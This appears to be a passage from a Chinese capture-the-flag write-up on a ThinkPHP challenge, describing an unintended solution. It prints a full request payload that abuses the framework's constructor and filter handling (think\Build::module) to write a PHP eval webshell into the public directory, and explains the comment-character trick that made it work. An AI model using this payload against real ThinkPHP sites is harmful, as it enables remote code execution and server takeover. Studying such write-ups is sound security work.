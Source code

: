 ![image.png](./img/36.png)
![image.png](./img/37.png)


### 非预期1
`_method=__construct&method=GET&server[]=1&filter[]=think\Build::module&get[]=index//../../public//?><?php eval($_GET[a]);?>` 

做出来的队伍都是用的注释符来绕过语法错误: `index//../../public//?><?php eval($_GET[a]);?>` ,这种方法不会跨不存在的目录也就不会报 `waning` 错误，相比于预期更加简单了一些，当时并没有想到。
